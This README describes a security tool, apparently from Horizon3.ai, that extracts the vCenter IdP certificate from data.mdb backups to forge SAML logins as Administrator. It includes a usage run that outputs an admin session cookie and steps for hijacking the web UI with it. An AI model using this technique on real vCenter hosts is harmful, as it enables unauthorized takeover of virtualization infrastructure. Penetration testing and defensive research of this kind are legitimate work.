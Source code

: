 # vCenter SAML Login Tool
A tool to extract the IdP cert from vCenter backups and log in as Administrator

If you'd like to know more about several use cases for this tool and how we've used it to gain Administrative access to vCenter hosts check out our blog post: https://horizon3.ai/vcenter_saml_login

## Background
With root or administrative permissions, it is possible to extract the IdP certificates from the directory service information located within the data.mdb file on the VCSA host. These certificates are stored in cleartext and can be used to sign any SAML authentication request for any user - including the builtin Administrator.

We've commonly found vCenter backups that contain the data.mdb file as well as several critical CVEs have been released in the past year that lead to access to this file.

If you'd like to know more about several use cases for this tool and how we've used it to gain Administrative access to vCenter hosts check out our blog post: https://horizon3.ai/vcenter_saml_login

## Usage
```
root@kali:~/vcenter# python3 vcenter_saml_login.py -p data.mdb -t 10.0.100.200
[*] Successfully extracted the IdP certificate
[*] Successfully extracted trusted certificate 1
[*] Successfully extracted trusted certificate 2
[*] Obtaining hostname from vCenter SSL certificate
[*] Found hostname vcsa.olympus for 10.0.100.200
[*] Initiating SAML request with 10.0.100.200
[*] Generating SAML assertion
[*] Signing the SAML assertion
[*] Attempting to log into vCenter with the signed SAML request
[+] Successfuly obtained Administrator cookie for 10.0.100.200!
[+] Cookie: VSPHERE-UI-JSESSIONID=06D1630719B4DE33A4CE653458911640
```

With the above cookie, visit the VCSA instance at https://<VCSA>/ui, add the cookie under the /ui path, and re-browse to https://<VCSA>/ui. 

## Demonstration
![](vcenter.gif)
